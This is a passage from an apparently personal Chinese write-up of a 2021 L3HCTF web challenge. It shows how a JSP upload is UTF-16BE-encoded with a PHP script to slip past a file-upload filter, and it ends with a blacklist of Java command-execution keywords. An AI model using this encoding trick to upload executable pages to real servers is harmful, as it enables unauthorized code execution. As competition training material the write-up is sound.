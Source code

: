 第三层就是额外的黑名单关键字：

```java
                        //居然被绕过了，得再加一层过滤
                        BlackWordsDetect blackWordsDetect = new BlackWordsDetect(item);
                        boolean detectResult = blackWordsDetect.detect();
                        if (detectResult) {
                            response.getWriter().write("上传失败：检测到黑名单关键字！ " + blackWordsDetect.getBlackWord());
```

当时就跪在了第二层上，一直在找怎么编码绕waf，没有找到。

学习一波了：https://www.anquanke.com/post/id/210630#h3-3

试着写一个：

```java
<?xml version="1.0" encoding="UTF-16be"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
        response.getWriter().println("ego");
    </jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

然后进行UTF-16BE编码，本来拿Java写了一个，然后发现Java的编码转换有点怪怪的。。。还是按照writeup里面那样拿php来写了：

```php
<?php
$content = file_get_contents("shell.jsp");
$content = iconv("utf-8","utf-16be",$content);
file_put_contents("encodeShell.jsp",$content);
```

![image-20211116172303551](2021-L3HCTF-Web.assets/image-20211116172303551.png)

成功执行：

![image-20211116172319439](2021-L3HCTF-Web.assets/image-20211116172319439.png)

那么这样的话，第二层waf也就成功绕过了。

第三层的话真的ban了好多的东西，我测试了几个我知道的都被ban掉了：

```
Runtime
newInstance
invoke
ProcessBuilder
ELProcessor
```
